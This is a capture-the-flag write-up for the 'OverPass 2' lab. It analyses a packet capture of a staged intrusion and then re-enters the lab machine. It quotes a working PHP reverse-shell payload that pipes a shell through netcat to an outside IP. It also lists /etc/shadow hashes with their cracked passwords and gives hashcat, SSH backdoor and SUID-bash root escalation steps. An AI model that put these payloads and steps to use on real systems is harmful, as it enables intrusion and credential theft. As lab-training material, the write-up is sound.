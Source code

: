 # WriteUp for OverPass 2

We have a pcapng file which has sniffed packets of the hack.
Lets analyse the file with wireshark, here we can change the file format to pcap by using editcap.

## What was the URL of the page they used to upload a reverse shell?
We analyse the HTTP requests and find that /development is the folder where the reverse shell is uploaded.

## What payload did the attacker use to gain access?
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

## What password did the attacker use to privesc?
whenevernoteartinstant

## How did the attacker establish persistence?
whenevernoteartinstant

## Using the fasttrack wordlist, how many of the system passwords were crackable?
We find that there is contents of /etc/shadow file in the sniffed packtes, There we have a few hashes which we can decode using john the ripper and we find there are 4 such cracked password.
```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```
The passwords:-
```
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)

```

Now that you've found the code for the backdoor, it's time to analyse it.

## What's the default hash for the backdoor?
We can clone the git repository and find the hash from there.

## What's the hardcoded salt for the backdoor?
The salt is also present in the git repository.

## What was the hash that the attacker used? - go back to the PCAP for this!
We can read the hash used by attacker from the tcp stream.

## Crack the hash using rockyou and a cracking tool of your choice. What's the password?
for this we need to use hash cat.
```
hashcat -m 1710 "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05" --force ~/Downloads/rockyou.txt --show
```
the password comes out be november 16

## The attacker defaced the website. What message did they leave as a heading?
After Deploying the machine we find out that the website has a message.

## Using the information you've found previously, hack your way back in!

## What's the user flag?
Just running nmap shows post 2222 is open and thats where we have backdoor in the machine, so using ssh we login into the machine
```
 ssh -p 2222 james@10.10.100.158
````
the password is november 16
 and find the user.txt file in /james directory. 
## What's the root flag?
ls -a in james directory shows us a ```/.suid_bash``` file running and using ```./.suid_bash``` -p we can login as root.
